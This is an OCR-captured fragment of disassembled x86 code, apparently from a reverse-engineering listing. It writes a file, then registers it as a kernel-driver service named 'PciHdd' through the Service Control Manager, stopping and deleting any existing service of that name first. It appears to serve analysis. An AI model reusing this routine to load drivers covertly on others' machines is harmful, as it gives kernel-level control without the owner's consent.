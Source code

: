push  hObject    ; hFile
call  FlushFileBuffers
push  hObject   ; hObject
call  CloseHandle

push  0F003Fh         ; dwDesiredAccess
push  0    ; lpDatabaseName
push  0    ; lpMachineName
call  OpenSCManagerA
or  eax, eax
jz  OpenSCManagerFailed
mov  hSCManager, eax

push  0    ; lpPassword
push  0    ; lpServiceStartName
push  0    ; lpDependencies
push  0    ; lpdwTagId
push  0    ; lpLoadOrderGroup
lea  eax, @FileName
push  eax    ; lpBinaryPathName
push  0    ; dwErrorControl
push  3    ; dwStartType
push  1    ; dwServiceType
push  0    ; dwDesiredAccess
push  offset ServiceName ; "PciHdd"
push  offset ServiceName ; "PciHdd"
push  hSCManager      ; hSCManager
call  CreateServiceA
or  eax, eax
jz  CreateServiceFailed
mov  hSCObject, eax
push  hSCObject  ; hSCObject
call  CloseServiceHandle
jmp  OPENSERVICE

CreateServiceFailed:
push  0F01FFh            ; dwDesiredAccess
push  offset ServiceName ; "PciHdd"
push  hSCManager      ; hSCManager
call  OpenServiceA
or  eax, eax
jz  short OpenServiceFailed
mov  hSCObject, eax
lea  eax, ServiceStatus
push  eax    ; lpServiceStatus
push  1    ; dwControl
push  hSCObject  ; hService
call  ControlService
push  hSCObject  ; hService
call  DeleteService
push  hSCObject  ; hSCObject
call  CloseServiceHandle
